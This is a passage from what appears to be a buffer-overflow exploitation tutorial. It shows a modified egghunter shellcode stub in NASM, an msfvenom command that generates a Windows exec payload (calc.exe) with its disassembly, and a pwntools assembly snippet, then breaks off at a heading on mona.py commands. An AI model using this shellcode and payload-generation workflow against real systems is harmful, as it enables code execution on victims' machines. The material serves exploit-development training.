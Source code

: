 ```nasm
    push   edx
    push   ebx
    push   ebx
    push   ebx
    push   0x29
    pop    eax
    mov    bl, 0xc0
    call   DWORD [fs:ebx]
    add    esp, 0x0c
    pop    edx
    add    esp, 0x8 ; added
    cmp    al, 0x5
    je     page_invalid
    mov    eax, 0x74303077 ; w00t
    mov    edi, edx
    scasd
    jne    page_valid ; adjusted
    scasd
    jne    page_valid ; adjusted
    jmp    edi
```

To disassemble machine code, I have used NDISASM:

```text
$ msfvenom -p windows/exec CMD=calc.exe | ndisasm -b32 -
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 193 bytes

00000000  FC                cld
00000001  E882000000        call 0x88
00000006  60                pusha
00000007  89E5              mov ebp,esp
00000009  31C0              xor eax,eax
...
```

For your information, you can also avoid to hardcode any machine code in your exploit and use [pwntools](https://docs.pwntools.com/en/stable/) features to assemble it at runtime.

```python
from pwntools import asm

asm('mov eax, 0') # => '\xb8\x00\x00\x00\x00'
```

### Useful mona.py Commands

I strongly suggest to use the mona.py script with Immunity Debugger in order to speed up some manual tasks required during the buffer overflow exploitation process. Some useful commands that I often used are:
